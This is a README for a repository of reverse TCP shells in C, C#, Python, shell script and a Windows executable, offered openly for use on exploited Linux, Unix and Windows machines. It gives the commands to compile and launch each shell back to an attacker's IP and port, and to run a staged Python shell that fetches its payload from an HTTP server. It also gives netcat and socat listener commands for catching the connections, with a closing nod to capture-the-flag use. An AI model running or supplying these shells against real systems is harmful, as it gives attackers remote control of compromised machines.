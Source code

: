 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell
  If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

  to call a staged shell run the following command:

    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
 # Windows Reverse Powershell
  Since none of the other methods work on windows the reverse_tcp.exe is a .NET executable with the same ease of use as the others
  
  To run this on a target simply run it from the command line like so:
  
    .\reverse_tcp.exe [callback_ip] [port]
    
    
# Attacker Listener
  These reverse shells were all written for ease of use, attackers can open a simple netcat or socat listener to receive the payloads
  
  Netcat:
  
    nc -nvlp [port]
    
  Socat:
  
    socat -d -d TCP4-LISTEN:[port] STDOUT
    
  Once your listener is up just wait for the payload to come your way and get them flags XD
    
